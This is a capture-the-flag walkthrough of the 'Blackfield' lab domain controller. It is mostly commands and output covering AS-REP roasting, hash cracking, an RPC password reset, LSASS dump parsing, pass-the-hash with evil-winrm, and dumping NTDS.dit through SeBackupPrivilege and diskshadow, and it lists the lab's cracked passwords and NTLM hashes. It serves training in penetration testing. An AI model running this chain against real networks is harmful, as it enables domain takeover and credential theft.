







# blackfield

| Hostname   | Difficulty |
| ---        | ---        |
| Blackfield | Hard       |

Machine IP: 10.10.10.192 :

```bash
TARGET=10.10.10.192     # inject IP address
ATTACKER=10.10.14.4     # attacker IP
```

## Initial Reconnaissance

### Ports and services

List open ports :

```shell
nmap -p- "${TARGET}" -Pn --min-rate=1000 -T4
```

Result:

```text
Nmap scan report for 10.10.10.192
Host is up (0.014s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
389/tcp  open  ldap
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 85.53 seconds
```

Then enumerate the services behind these ports :

```shell
nmap -sC -sV -A ${TARGET} -p53,88,135,389,445,593,3268,5985
```

Result:

```text
Nmap scan report for 10.10.10.192
Host is up (0.014s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-15 03:11:18Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-04-15T03:11:28
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: 6h59m59s

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   13.35 ms 10.10.14.1
2   13.42 ms 10.10.10.192

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.07 seconds
```

### Information founds

| port | service | Software/version |
| ---  | ---     | ---              |
| 53   | domain  |                  |
| 88   | kerberos-sec |             |
| 135  | msrpc   |                  |
| 389  | ldap    |                  |
| 445  | microsoft-ds |             |
| 593  | ncacn_http   |             |
| 3268 | ldap    |                  |
| 5985 | http    |                  |

### Enumeration: SMB (ports 139,445)

We start with a simple enumeration of shared folders :

```shell
smbclient --no-pass -L //$TARGET
```

Result:

```text
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	forensic        Disk      Forensic / Audit share.
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	profiles$       Disk      
	SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

And try to get some more informations :

```shell
smbmap -u guest -H "$TARGET"
```

Result:

```text
[+] IP: 10.10.10.192:445	Name: 10.10.10.192        	Status: Authenticated
    Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	NO ACCESS	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	NO ACCESS	Logon server share 
```

So the share `profiles$` is accessible as read-only.

```shell
smbmap -u guest -H "${TARGET}" -R "profiles\$"
```

Result [here](assets/smb_share_profiles.txt)

This share contains a list (around 300) of supposed home folders, such as :

```text
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	ACheretei
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	ACsonaki
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	AHigchens
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	AJaquemai
	dr--r--r--                0 Wed Jun  3 18:47:11 2020	AKlado
```

For later use, we generate usernames from the folder names :

```bash
smbclient -N "\\\\${TARGET}\\profiles\$" -c 'ls' | grep -E '^  [A-Z]*' | cut -d ' ' -f 3 > usernames.txt
```

Result [here](assets/usernames.txt)

### Ldap (port 389)

Enumerate 

```shell
nmap -n -sV --script "ldap* and not brute" -p 389 $TARGET
```

Result:

```text
Nmap scan report for 10.10.10.192
Host is up (0.014s latency).

PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local, Site: Default-First-Site-Name)
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       domainFunctionality: 7
|       forestFunctionality: 7
|       domainControllerFunctionality: 7
|       rootDomainNamingContext: DC=BLACKFIELD,DC=local
|       ldapServiceName: BLACKFIELD.local:dc01$@BLACKFIELD.LOCAL
|       isGlobalCatalogReady: TRUE
|       supportedSASLMechanisms: GSSAPI
|       supportedSASLMechanisms: GSS-SPNEGO
|       supportedSASLMechanisms: EXTERNAL
|       supportedSASLMechanisms: DIGEST-MD5
|       supportedLDAPVersion: 3
...
|       supportedControl: 1.2.840.113556.1.4.2330
|       supportedControl: 1.2.840.113556.1.4.2354
|       supportedCapabilities: 1.2.840.113556.1.4.800
|       supportedCapabilities: 1.2.840.113556.1.4.1670
|       supportedCapabilities: 1.2.840.113556.1.4.1791
|       supportedCapabilities: 1.2.840.113556.1.4.1935
|       supportedCapabilities: 1.2.840.113556.1.4.2080
|       supportedCapabilities: 1.2.840.113556.1.4.2237
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=BLACKFIELD,DC=local
|       serverName: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=BLACKFIELD,DC=local
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=BLACKFIELD,DC=local
|       namingContexts: DC=BLACKFIELD,DC=local
|       namingContexts: CN=Configuration,DC=BLACKFIELD,DC=local
|       namingContexts: CN=Schema,CN=Configuration,DC=BLACKFIELD,DC=local
|       namingContexts: DC=DomainDnsZones,DC=BLACKFIELD,DC=local
|       namingContexts: DC=ForestDnsZones,DC=BLACKFIELD,DC=local
|       isSynchronized: TRUE
|       highestCommittedUSN: 233584
|       dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=BLACKFIELD,DC=local
|       dnsHostName: DC01.BLACKFIELD.local
|       defaultNamingContext: DC=BLACKFIELD,DC=local
|       currentTime: 20230415042338.0Z
|_      configurationNamingContext: CN=Configuration,DC=BLACKFIELD,DC=local
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.57 seconds
```

From this we know this hostname is DC01 in domain BLACKFIELD.local

### Kerberos (port 88)

```shell
kerbrute userenum --dc ${TARGET} -d blackfield.local ./usernames.txt
```

Result:

```text
>  Using KDC(s):
>   10.10.10.192:88

>  [+] VALID USERNAME:       audit2020@blackfield
>  [+] VALID USERNAME:       svc_backup@blackfield
>  [+] VALID USERNAME:       support@blackfield
>  Done! Tested 316 usernames (3 valid) in 161.132 seconds
```

Or better and faster with :

```shell
nmap ${TARGET} -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='blackfield.local',userdb=./usernames.txt -Pn
```

Result:

```text
Nmap scan report for 10.10.10.192
Host is up (0.014s latency).

PORT   STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users: 
| Discovered Kerberos principals
|     audit2020@blackfield.local
|     support@blackfield.local
|_    svc_backup@blackfield.local

Nmap done: 1 IP address (1 host up) scanned in 0.90 seconds
```

So from all the list obtained from 'profiles$' share, only these 3 users are valid :

- audit2020
- support
- svc_backup

## Initial access

### Bruteforce accounts

Knowing 3 usernames, it could be possible to bruteforce them with something like :

```shell
crackmapexec smb ${TARGET_IP} -u audit2020 -p /usr/share/wordlists/rockyou.txt
crackmapexec smb ${TARGET_IP} -u svc_backup -p /usr/share/wordlists/rockyou.txt
crackmapexec smb ${TARGET_IP} -u support -p /usr/share/wordlists/rockyou.txt
```

but this would be very long ...

From : [HackTrick - AD](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology#knowing-one-or-several-usernames)

There could be a vulnerability called [asreproast](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast).

> The ASREPRoast attack looks for users without Kerberos pre-authentication required attribute (DONT_REQ_PREAUTH).
>
> That means that anyone can send an AS_REQ request to the DC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.
>
> Furthermore, no domain account is needed to perform this attack, only connection to the DC. However, with a domain account, a LDAP query can be used to retrieve users without Kerberos pre-authentication in the domain. Otherwise usernames have to be guessed.

So let's give a try:

```shell
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -usersfile usernames.txt -dc-ip "$TARGET" "blackfield.local"/
```

and output file `ASREProastables.txt` contains one account :

```text
$krb5asrep$23$support@BLACKFIELD.LOCAL:83cac1041071b5da3bb656894493d45a$3e1864e9d972ef9e2c3c6b907a0de44dcd693741c37682be475dea23a5456e7cff127659443e3b9117a4c9acdab09092df6e1cb86a02dd20f807fa65ad12847b000f1612649775cc7b81e7581b63ff41a48f1b8b77fd16c16411f75599893663971403a4a3423631814bee0d7d534b79d09725185a32d5876b75abdbf5aed5592ca0482764f6b9b287de7c07edfc2fdf7f6e96466c39c02850cc6008dfa1777253773dd84d290f3b2849969caa696eca92469deb9f482dfc8b64c28dab3de6b926868741bbae439ca29cefa0c6983bcb90ff06b9bf68f167c36b9a52140798567a447cf23a0c9e30fe9a8eb85be7f5a126164230
```

So user `support` have `UF_DONT_REQUIRE_PREAUTH` set and is vulnerable.

As suggected, it can be cracked with :

```bash
hashcat -m 18200 --force -a 0 ASREProastables.txt /usr/share/wordlists/rockyou.txt 
```

After a little time, the password of user `support` is cracked :

| username              | password          | usage |
| ---                   | ---               | ---   |
| `blackfield\support`  | `#00^BlackKnight` |       |

### enumerate SMB with username 'support'

This credential do not seem to be usable for WinRM service :

```bash
crackmapexec winrm ${TARGET} -u support -p '#00^BlackKnight'
```

```text
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD.local\support:#00^BlackKnight
```

also for SMB :

```bash
crackmapexec smb $TARGET -d blackfield.local -u support -p '#00^BlackKnight' -x whoami
```

fails too.

Enumerate the shares this user have access :

```shell
smbmap -u support -p '#00^BlackKnight' -H ${TARGET}
```

Result:

```text
[+] IP: 10.10.10.192:445	Name: 10.10.10.192        	Status: Authenticated
    Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	NO ACCESS	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share 
```

Try to enumerate these new accessible shares with :

```shell
smbclient -N "\\\\${TARGET}\\NETLOGON" -U 'support%#00^BlackKnight' 
smbclient -N "\\\\${TARGET}\\SYSVOL" -U 'support%#00^BlackKnight'
```

- NETLOGON : completely empty
- SYSVOL : have some files, but none of them seems usefull

### bloodhound

Since we know a username, we could use [bloodhound](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound). So let's give a try.

```shell
cat <<EOF >> /etc/hosts                                                      
heredoc> 10.10.10.192     blackfield
heredoc> 10.10.10.192     blackfield.local
heredoc> 10.10.10.192     dc01.blackfield.local
heredoc> EOF
```

```shell
rusthound -d blackfield.local -u "support"@blackfield.local -p '#00^BlackKnight' -o /workspace/ --zip
```

Result:

```text
rusthound] Verbosity level: Info
rusthound::ldap] Connected to BLACKFIELD.LOCAL Active Directory!
rusthound::ldap] Starting data collection...
rusthound::ldap] All data collected for NamingContext DC=blackfield,DC=local
rusthound::json::parser] Starting the LDAP objects parsing...
rusthound::json::parser::bh_41] MachineAccountQuota: 10
rusthound::json::parser] Parsing LDAP objects finished!
rusthound::json::checker] Starting checker to replace some values...
rusthound::json::checker] Checking and replacing some values finished!
rusthound::json::maker] 316 users parsed!
rusthound::json::maker] 60 groups parsed!
rusthound::json::maker] 18 computers parsed!
rusthound::json::maker] 1 ous parsed!
rusthound::json::maker] 1 domains parsed!
rusthound::json::maker] 2 gpos parsed!
rusthound::json::maker] 21 containers parsed!
rusthound::json::maker] /workspace//20230415230126_blackfield-local_rusthound.zip created!
```

Start it :

```bash
neo4j start
bloodhound
```

login, then upload the 4 json :



open the Analysis menu :



Query : "Find all Domain Admins"

`Administrator@blackfield.local` is the only member of group "domain admins@blackfield.local"

But there is no link to our current user support@blackfield.local

In the analysis menu, select "Find AS-REP Roastable Users (DontReqPreAuth)" in the "Kerberos Interaction" section.

The user `support@blackfield.local` appears here. It can be flagged as "owned" (right clic: "mark as owned")



This user is member of groups :





user "Support@blackfield.local" :

- is a member of "domain users"
  - is a member of "authenticated users"
    - is a member of "pre-windows 2000 compatible access"
    - is a member of "users"
  - is a member of "users"
  - is a member of "everyone"





The user "SUPPORT@BLACKFIELD.LOCAL" has the capability to change the user "AUDIT2020@BLACKFIELD.LOCAL"'s password without knowing that user's current password.

### Lateral movement to user "audit2020"

Since RPC service is available, it is possible to change a user password over RPC, from attacker host :

```bash
net rpc password -S $TARGET -U blackfield.local\\support audit2020
```

provide a new password `password` for support user.

There is a policy for the length, complexity, and history of the possword. The new password must meet these requirements.

With `password1234!`, the new password is set !

| username  | password        |
| ---       | ---             |
| support   | #00^BlackKnight |
| audit2020 | password1234!   |


### enumerate with username audit2020

check SMB access with this user :

```bash
smbmap -u audit2020 -p 'password1234!' -H ${TARGET}
```

```text
[+] IP: 10.10.10.192:445	Name: 10.10.10.192        	Status: Authenticated
    Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	READ ONLY	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share 
```

The share "forensic" is now accessible with this user, in read only :

```bash
smbmap -u audit2020 -p 'password1234!' -H ${TARGET} -r forensic
```

```text
[+] IP: 10.10.10.192:445        Name: 10.10.10.192
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        forensic                                                READ ONLY
        .\forensic\*
        dr--r--r--                0 Sun Feb 23 16:10:16 2020    .
        dr--r--r--                0 Sun Feb 23 16:10:16 2020    ..
        dr--r--r--                0 Sun Feb 23 19:14:37 2020    commands_output
        dr--r--r--                0 Thu May 28 22:29:24 2020    memory_analysis
        dr--r--r--                0 Fri Feb 28 23:30:34 2020    tools
```

So browse and download files for analysis :

```bash
smbclient //${TARGET}/forensic -U blackfield.local/audit2020
```

```text
smb: \> recurse
smb: \> mget commands_output
smb: \> mget memory_analysis
```

### lateral movement to user svc_backup, access target

Uncompress the archive file, and verify what is the extracted file:

```bash
unzip lsass.zip                                 
file lsass.DMP
```

```text
lsass.DMP: Mini DuMP crash report, 16 streams, Sun Feb 23 18:02:01 2020, 0x421826 type
```

This is a backup of a LSASS file, that could be extracted with a mimikatz-like tool :

Here : https://beta.hackndo.com/remote-lsass-dump-passwords/

```bash
pypykatz lsa minidump lsass.DMP -o lsass.txt
```

The output contains many informations, but we can find some hash :

For account svc_backup:

```text
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
		DPAPI: a03cd8e9d30171f3cfe8caad92fef621
```

For account Administrator:

```text
== LogonSession ==
authentication_id 153705 (25869)
session_id 1
username Administrator
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T17:59:04.506080+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-500
luid 153705
	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
		DPAPI: 240339f898b6ac4ce3f34702e4a89550
```

There is a NTLM hash for user "BLACKFIELD\svc_backup", and "BLACKFIELD\Administrator"

With these NTLM hash, it is now possible to have a shell to the target with the user svc_backup :

```bash
evil-winrm -i ${TARGET} -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

```text
Evil-WinRM shell v3.4
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> 
```

Note: The hash from administrator is not working. Explaination later in this writeup

## Post-Exploitation

### Host Reconnaissance

First let's check what privileges have this account :

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /all
```

Result:

```text
USER INFORMATION
----------------

User Name             SID
===================== ==============================================
blackfield\svc_backup S-1-5-21-4194615774-2175524697-3563712290-1413


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

This account have SeBackupPrivilege, this seems interesting from [here](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#sebackupprivilege-3.1.4):

> This privilege causes the system to grant all read access control to any file (only read).
> Use it to read the password hashes of local Administrator accounts from the registry and then use "psexec" or "wmicexec" with the hash (PTH).

This user also have SeRestorePrivilege :

> Write access control to any file on the system, regardless of the files ACL.
> You can modify services, DLL Hijacking, set debugger (Image File Execution Options)… A lot of options to escalate.

### privilege escalation : abuse SeBackupPrivilege to read files

From this [article](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf), it's quite easy to get a read acces to any files since the user have SeRestorePrivilege:

```batch
*Evil-WinRM* PS C:\Users> get-acl \Users\Administrator | fl
```

Result:

```text
Path   : Microsoft.PowerShell.Core\FileSystem::C:\Users\Administrator
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BLACKFIELD\Administrator Allow  FullControl
Audit  :
Sddl   : O:SYG:SYD:P(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)
```

Add a full control access to svc_backup to Administrator home folder, and apply (inherit) it to children :

```batch
*Evil-WinRM* PS C:\Users> $user = "blackfield\svc_backup"
*Evil-WinRM* PS C:\Users> $folder = "c:\users\Administrator"
*Evil-WinRM* PS C:\Users> $aclperms = $user,"FullControl","ContainerInherit,ObjectInherit","None","Allow"
*Evil-WinRM* PS C:\Users> $aclrule = new-object System.Security.AccessControl.FileSystemAccessRule $aclperms
*Evil-WinRM* PS C:\Users> $acl=get-acl $folder
*Evil-WinRM* PS C:\Users> $acl.addAccessRule($aclrule)
*Evil-WinRM* PS C:\Users> set-acl -path $folder -aclobject $acl
*Evil-WinRM* PS C:\Users> get-acl $folder | fl
```

```text
Path   : Microsoft.PowerShell.Core\FileSystem::C:\users\Administrator
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BLACKFIELD\Administrator Allow  FullControl
         BLACKFIELD\svc_backup Allow  FullControl
Audit  :
Sddl   : O:SYG:SYD:PAI(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)(A;OICI;FA;;;S-1-5-21-4194615774-2175524697-3563712290-1413)
```

It's now possible to read proof file :

```batch
*Evil-WinRM* PS C:\Users> cd Administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

### Privilege Escalation : get a shell

#### Reconnaissance

Exploring the filesystem, there is a note file at root of C: drive :

```shell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> more c:\notes.txt
```

Result:

```text
Mates,

After the domain compromise and computer forensic last week, auditors advised us to:
- change every passwords -- Done.
- change krbtgt password twice -- Done.
- disable auditor's account (audit2020) -- KO.
- use nominative domain admin accounts instead of this one -- KO.

We will probably have to backup & restore things later.
- Mike.

PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)
```

From this note, we can understand why the administrator hash from `lsass.zip` file extracted previously was not working: password have been changed.

#### Exploit SeBackupPrivilege

So we need to get into the Administrator context. On way to do this is to abuse SeBackup and
SeRestore privileges in order to dump the AD database. Then, we can use the administrator
NTLM hash in a PtH (Pass the Hash) attack to get a shell as them.

We will use the way to dump ActiveDirectory given from [Here](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration#no-credentials-diskshadow) : using diskshadow

A similar way is given in this [Article](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)

Diskshadow is a Windows built-in utility that can create copies of a drive that is currently in use.

We will uses the script mode to create a script file with all the commands needed to create a copy of the hash file, either SAM or NTDS.dit files in which we can extract them later locally.

Here is the script, we can run to get the files.

```txt
set verbose ONX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

NB: The 'x' at the end of each line is requiered, since the last character of each is omited (?..)

Use the evil-winrm session to upload the script, and pass it to diskshadow unility to create the shadow copy :

```shell
upload backup_script
diskshadow /s backup_script.txt
```

Switch to the E: Drive (the backup), copy the NTDS file using Robocopy to the C: drive :

```shell
robocopy /s E:\Windows\ntds . ndtd.dit
```

Next we get the system registry hive that contains the key needed to decrypt the NTDS file with reg save command.

```shell
reg save hklm\system system
```

Download the files to the attack box with the evil-winrm download command, and extract the hashes :

```shell
download ntds.dit
download system
```

```shell
secretsdump -ntds ntds.dit -system system LOCAL
```

output

```text
[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
...
svc_backup:1413:aad3b435b51404eeaad3b435b51404ee:9658d1d1dcd9250115e2205d9f48400d:::
BLACKFIELD.local\lydericlefebvre:1414:aad3b435b51404eeaad3b435b51404ee:a2bc62c44415e12302885d742b0a6890:::
PC01$:1415:aad3b435b51404eeaad3b435b51404ee:de1e7748b6b292bfff4fd5adb54b4608:::
...
[*] Kerberos keys from ntds.dit
```

So we now have administrator hash from active directory : 184fb5e5178480be64824d4cd53b99ee

An administrator shell can be opened with :

```shell
evil-winrm -i ${TARGET} -u blackfield\\administrator -H 184fb5e5178480be64824d4cd53b99ee
```

```text
Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## Loots

### credentials

| Username  					| Password  		| Hash      		| Usage     |
| ---       					| ---       		| ---       		| ---       |
| `blackfield\support`  		| `#00^BlackKnight` |       			|			|
| `blackfield\audit2020`		| `password1234!`	|					|			|
| `blackfield\svc_backup`		| 					| 9658d1d1dcd9250115e2205d9f48400d | winRM |
| `blackfield\administrator`	| 					| 7f1e4ff8c6a8e6b6fcae2d9c0572cd62 | not working/password changed |
| `blackfield\administrator`	| 					| 184fb5e5178480be64824d4cd53b99ee | winRM |
